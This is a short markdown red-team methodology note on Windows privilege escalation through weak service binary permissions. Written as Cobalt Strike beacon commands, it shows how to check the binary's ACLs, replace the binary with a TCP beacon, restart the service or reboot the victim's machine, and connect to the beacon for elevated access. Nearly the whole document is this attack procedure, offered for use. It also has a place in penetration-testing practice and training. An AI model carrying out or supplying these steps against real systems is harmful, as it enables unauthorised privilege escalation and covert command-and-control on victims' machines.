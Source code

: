 ```yaml
---
title: "Weak Service Binary Permissions Abuse Methodology"
author: "nickvourd"
description: "Abuse Windows service binary misconfigurations that allow an attacker to elevate their privileges."
date: 2022-02-01
---
```


### Abuse Windows service binary misconfigurations that allow an attacker to elevate their privileges.

---

#### -> Get permisions of a service binary file (Beacon Command):
```powershell
$ powershell Get-Acl -Path "C:\[path]\[service_binary].exe" | fl
```

#### -> Find that the Users allow to Modify. This allows us to simply overwrite the binary with something else.

#### -> Take a backup of service binary (Beacon Command):
```powershell
$ download [service_binary].exe
```

#### -> Then upload the beacon-tcp.exe (Beacon Command):
```powershell
$ upload beacon-tcp.exe
```

#### -> If you take any error code from Cobalt Strike, use net helpmsg to resolve Windows error codes. Run the following comand on cmd of your machine (CMD Command):
```powershell
$ net helpmsg [error_code]
```

#### -> Find Service Permisions with accesschk from Sysinternals Suite (Beacon Command):
```powershell
$ powershell .\accesschk64.exe /accepteula -ucqv [user] [service_name]
```

#### -> If the service is running and you have permissions to stop it (Beacon Command):
```powershell
$ powershell sc.exe stop [service_name]
```

* Then start again the service (Beacon Command):
```powershell
$ powershell sc.exe start [service_name]
```

* Connect to the listening tcp beacon (Command Beacon):
```powershell
$ connect localhost [port]
```

#### -> If you don't have permissions to start/stop the victim's vulnerable service, just reboot the victim's machine and connect to TCP Beacon.

---

###### nickvourd's Social links
- [[GitHub]](https://github.com/nickvourd)
- [[Twitter]](https://twitter.com/nickvourd)